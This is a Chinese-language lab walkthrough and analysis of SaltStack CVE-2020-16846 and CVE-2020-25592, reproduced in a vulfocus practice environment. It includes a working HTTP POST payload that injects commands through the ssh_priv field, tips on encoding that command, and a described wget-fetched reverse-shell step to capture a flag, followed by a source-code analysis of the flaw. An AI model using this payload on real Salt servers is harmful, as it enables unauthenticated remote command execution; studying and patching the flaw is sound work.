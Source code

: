 # SaltStack 远程命令执行漏洞（CVE-2020-16846）by [FlyYoung729](https://github.com/FlyYoung729)

## 一、漏洞详情
SaltStack是一个分布式运维系统，在互联网场景中被广泛应用，有以下两个主要功能：
1、配置管理系统，能够将远程节点维护在一个预定义的状态（例如，确保安装特定的软件包并运行特定的服务）
2、分布式远程执行系统，用于在远程节点上单独或通过任意选择标准来执行命令和查询数据

CVE-2020-16846: 命令注入漏洞
未经过身份验证的攻击者通过发送特制请求包，可通过Salt API注入ssh连接命令导致命令执行。

CVE-2020-25592: 验证绕过漏洞
Salt 在验证eauth凭据和访问控制列表ACL时存在一处验证绕过漏洞。未经过身份验证的远程攻击者通过发送特制的请求包，可以通过salt-api绕过身份验证，并使用salt ssh连接目标服务器。结合CVE-2020-16846能造成命令执行。

## 二、漏洞环境
该漏洞环境已整合到vulfocus靶场中，可一键直接启动。
步骤：
1、搜索CVE-2020-16846，点击启动（配合CVE-2020-25592验证绕过漏洞进行命令执行）
![](./图片1.png)
2、访问https://ip:port，看到该页面则证明靶场启动成功
![](./图片2.png)

也同样可以在dockerhub仓库中搜索vulfocus/saltstack找到我们上传的镜像
https://hub.docker.com/r/vulfocus/saltstack-cve_2020_16846
![](./图片3.png)
1、将镜像下载到本地环境
`docker pull vulfocus/saltstack-cve_2020_16846:latest`
2、启动镜像
`docker run -d -p 22:22 -p 4505:4505 -p 4506:4506 -p 8000:8000 vulfocus/saltstack-cve_2020_16846:latest`
3、访问https://ip:8000

## 三、漏洞复现
通过分析后构造poc
```
POST /run HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

token=123123&client=ssh&tgt=*&fun=a&roster=flyoung&ssh_priv=aaa|payload
```

dnslog成功回显
![](./图片4.png)
注意：
1、拼接命令中不能含有空格，需要将空格替换为%20，命令最后需要以分号结束，即%3b
2、回显可以使用wget或curl命令，ping命令执行不成功

在服务器上新建一个脚本，内容为反弹shell语句。
![](./图片5.png)

使用wget下载到目标靶场中
![](./图片6.png)

脚本成功下载
![](./图片7.png)

执行脚本
![](./图片8.png)
注意：
脚本执行需要用/bin/bash命令执行，如果使用sh命令则需要将aaa修改为/，因为cmd文件都下载在根目录，aaa其实为路径

成功回弹并拿到flag
![](./图片9.png)

根目录下就会多了一些ssh_priv值的文件/文件夹
![](./图片10.png)

2.5分get到手
![](./图片11.png)

## 四、漏洞分析

**CVE-2020-16846**
salt/client/ssh/shell.py
使用ssh-keygen命令生成ssh的密钥，path变量直接使用format放入cmd中，使用subprocess.call方法执行，该方法会默认将列表第一个项作为命令，后续作为命令参数执行。配置了shell=True参数会直接将整个字符串用shell解释，相当于同样的语句放在终端中运行。该漏洞修复之后shell默认为false。path参数可控即可造成命令执行。
![](./图片12.png)

漏洞版本与修复版本文件对比
![](./图片13.png)

**CVE-2020-25592**
入口分析
SaltStack利用cherrypy和tornado两个框架实现了api。
salt/netapi/rest_cherrypy/app.py
cherrypy配置
![](./图片14.png)

LowDataAdapter类调用了salt.netapi.NetapiClient类。
![](./图片15.png)
![](./图片16.png)

跟进ret = self.api.run(chunk)中的run函数
![](./图片17.png)

low为外部传入的参数，salt.utils.args.format_call方法将参数赋值给kwargs。
当攻击者将client参数值设为"ssh"时，会直接调用salt/netapi/init.py中的NetapiClient.ssh()。
![](./图片18.png)

salt.client.ssh.client.SSHClient，初始化函数没有ssh相关类调用，继续跟进cmd_sync()函数。
salt/client/ssh/client.py
![](./图片19.png)

salt/client/ssh/client.py
![](./图片20.png)
![](./图片21.png)

salt/client/ssh/init.py
![](./图片22.png)

## 五、Golang-PoC
提交利用goby编写的poc和exp，审核通过后就能获取到GoEXP计划的专属奖金，还可以集成到自己的goby中测试

运行后成功访问服务器81端口
![](./图片23.png)

## 参考链接：

https://paper.seebug.org/1398/

https://www.windylh.com/2020/11/18/SaltStack%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CVE-2020-16846)%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/



